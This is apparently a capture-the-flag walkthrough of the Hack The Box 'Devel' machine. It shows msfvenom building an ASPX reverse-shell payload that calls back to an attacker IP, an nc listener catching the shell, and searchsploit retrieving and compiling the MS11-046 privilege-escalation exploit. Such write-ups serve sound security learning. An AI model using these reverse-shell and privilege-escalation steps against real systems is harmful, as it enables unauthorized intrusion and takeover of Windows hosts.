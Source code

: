Can now get flags:

```text
c:\>type c:\users\babis\desktop\user.txt.txt
c:\>type c:\users\administrator\desktop\root.txt.txt
```

## Alternative Method (without Meterpreter)

Brief notes on a different way to complete the box.

Create payload as before using MSFVenom:

```text
root@kali:~/htb/devel# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f aspx -o spen2.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2719 bytes
Saved as: spen2.aspx
```

Start an nc session listening on another terminal:

```text
root@kali:~/htb/devel# nc -lvp 4444
listening on [any] 4444 …
```

Go to website and open spen2.aspx file, now back to nc terminal and should have connection:

```text
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.5] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 c:\windows\system32\inetsrv>
```

Checking for exploits for this version of Windows I find [this](https://www.exploit-db.com/exploits/40564). Look on searchsploit for it:

```text
root@kali:~/htb/devel# searchsploit 40564
------------------------------------ ----------------------------------------
Exploit Title |  Path | (/usr/share/exploitdb/)
------------------------------------ ----------------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
| exploits/windows_x86/local/40564.c
------------------------------------ ----------------------------------------
```

Mirror to local and look how to compile:

```text
root@kali:~/htb/devel# searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators 
Copied to: /root/htb/machines/devel/40564.c

root@kali:~/htb/devel# cat 40564.c | grep compiling -A 1
#   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
#     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

